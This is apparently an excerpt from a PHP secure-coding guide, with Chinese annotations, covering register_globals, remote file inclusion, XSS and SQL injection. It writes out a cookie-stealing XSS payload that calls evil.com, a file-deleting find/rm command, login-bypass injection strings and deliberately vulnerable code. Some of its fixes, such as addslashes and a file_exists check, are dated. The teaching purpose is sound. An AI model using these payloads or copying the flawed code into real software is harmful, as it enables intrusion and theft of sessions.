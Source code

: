 ###5.4. Safe-Handling User Input

###5.4.1.1 Global Variables
从 PHP » 4.2.0 版开始配置文件中 PHP 指令 register_globals 的默认值从 on 改为 off 了
本特性已自 PHP 5.3.0 起废弃并将自 PHP 5.4.0 起移除。

One basic mistake is not initializing global variables properly. 
Setting the php.ini directive 'register_globals' to Off (the default since PHP 4.2) protects against this mistake, 
but you still need to watch for the problem. Your application might be used by other users who have register_globals set to On. 
Let's illustrate what can happen if you don't initialize your variables with a basic example:

http://php.net/manual/zh/security.globals.php
对用户提交的每个数据进行检查

```php
<?php
session_start();

/* $admin is a session variable set earlier by an authentication
 * script */
 if (!$admin) {
    do_foo();
} else {
    do_admin_task();
}
?>
```


Although this looks like a simple thing, it can be overlooked in more complex scripts. In our example, not much harm is possible. The only thing that an attacker could do is use your web application with administrator rights. Far more severe problems can arise when you dynamically include files with the include() or require() functions in PHP. Consider the following (simplified) example:

```php
<?php
include $module. '.php';
?>
```


This script makes it possible for an attacker to execute arbitrary PHP code on your server, by simply appending ?module=http://example.com/evilscript to the URL in the browser. When PHP receives this URL, it sets $module equal to http://example.com/evilscript.php. When PHP executes the include() function, it tries to include the evilscript.php from example.com (which should not parse it, of course) and execute the PHP code in evilscript.php. evilscript.php might contain <?php 'find / -exec rm "{}" ";"'; ?>, code that would remove all files accessible by the web server.

The first of these exploits can be solved by using $_SESSION['admin'] or setting the register_globals php.ini setting to Off. The second can be solved by checking whether the file exists on the local machine before including it, as in the following code:

```php
<?php
if (file_exists($module. '.php')) {
    include $module. '.php';
}
?>
```


###5.4.1.2 Cross-Site Scripting
xss

By using the cross-site scripting technique, 
an attacker might be able to execute pieces of client-side scripting languages, 
such as JavaScript, 
and steal cookies or other sensitive data. 
Cross-site scripting is really not hard. 
The attacker only needs a way to insert raw data into the HTML of the site. 
For example, the attacker might enter <script language="JavaScript">alert();</script> into an input box that does not strip any HTML tags. 
The following script illustrates 说明 this possibility:
攻击者通过执行客户端脚本,来插入脚本内容到html里,来获取cookies和别的内容

<html>
<head><title>XSS example</title></head>
<body>
<form>
  <input name='foo' value='<?php echo $_GET['foo']; ?>'>
</form>
</html>



It's a straightforward script. Suppose the attacker types the following into your form field:

'><script language='JavaScript'>alert('boo!');</script><a b='



The JavaScript code results in the pop-up shown in Figure 5.2.


Figure 5.2. Effects of JavaScript in unchecked input.





Of course, this is not scary. However, suppose instead of this innocent pop-up, the following is input:

[View full width]
'><script language='JavaScript'>document.location= 'http://evil.com/cgi-bin/cookie
.cgi?f='+document.cookie</script><a b='



When a user is tricked into activating this URL, the contents of your cookie are sent to the evil.com guys. Of course, a user is not likely to click a URL with evil.com in it, but the bad guys can change the "evil.com" to an URL-encoded form that would look less "weird," especially to beginning Internet users.

5.4.1.3 SQL Injection
SQL Injection is a method in which an attacker inserts malicious code into queries that run on your database. Have a look at this example:

<?php
    $query = "SELECT login_id FROM users WHERE user='$user' AND pwd='$pw'";
    mysql_query($query);
?>



Voilà! Anyone can log in as any user, using a query string like http://example.com/login.php?user=admin'%20OR%20(user='&pwd=') %20OR%20user=', which effectively calls the following statements:

<?php
    $query = "SELECT login_id FROM users WHERE
        user='admin' OR (user = '' AND pwd='') OR user=''";
    mysql_query($query);
?>



It's even simpler with the URL http://example.com/login.php?user=admin'%23, which executes the query SELECT login_id FROM users WHERE user='admin'#' AND pwd=''. Note that the # marks the beginning of a comment in SQL.

Again, it's a simple attack. Fortunately, it's also easy to prevent. You can sanitize the input using the addslashes() function that adds a slash before every single quote ('), double quote ("), backslash (\), and NUL (\0). Other functions are available to sanitize input, such as strip_tags().


 
